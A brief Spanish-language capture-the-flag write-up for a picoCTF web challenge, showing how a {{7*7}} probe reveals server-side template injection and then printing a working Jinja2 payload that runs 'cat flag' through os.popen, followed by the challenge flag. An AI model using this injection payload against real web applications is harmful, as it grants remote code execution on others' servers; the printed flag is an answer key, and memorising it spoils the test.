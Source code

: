 ## Descripción:
I made a cool website where you can announce whatever you want! Try it out!

Additional details will be available after launching your challenge instance.

# Solución
Inyectamos un payload para ver cómo responde el servidor.
Aparece que se ejecutó " {{7*7}}" y no la entrada normal " Error" . Esto indica que el servidor es vulnerable a una vulnerabilidad SSTI .
Utilizamos una carga útil más sofisticada que realizará una RCE (ejecución remota de código) en el servidor.
```bash
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read() }}
```

Respuesta:`picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_bcf73b04}`


## Notas

## Referencias
 